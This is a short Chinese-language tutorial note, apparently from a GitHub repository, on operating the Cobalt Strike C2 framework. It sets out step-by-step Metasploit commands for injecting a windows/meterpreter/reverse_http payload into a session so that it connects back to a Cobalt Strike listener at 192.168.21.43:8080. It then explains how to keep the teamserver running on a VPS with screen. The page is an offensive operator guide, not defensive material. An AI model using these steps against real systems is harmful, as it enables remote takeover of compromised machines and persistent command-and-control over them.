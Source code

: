 ```yaml
---

---
```




# #21-08-27 Cobalt Strike用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](cs用法/image-20210827140254423.png)

![image-20210827140409050](cs用法/image-20210827140409050.png)

![image-20210827160438311](cs用法/image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](cs用法/image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](cs用法/image-20210827162931510.png)

![image-20210827163040114](cs用法/image-20210827163040114.png)

![image-20210827163212188](cs用法/image-20210827163212188.png)

![image-20210827173045062](cs用法/image-20210827173045062.png)

![image-20210827174242671](cs用法/image-20210827174242671.png)





#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

![image-20210901190549230](cs用法/image-20210901190549230.png) 

然后再进入cs目录启动teamserver

![image-20210901190716774](cs用法/image-20210901190716774.png)

![image-20210901193355762](cs用法/image-20210901193355762.png)

![image-20210901193502662](cs用法/image-20210901193502662.png)

强制切入 screen -rd cs
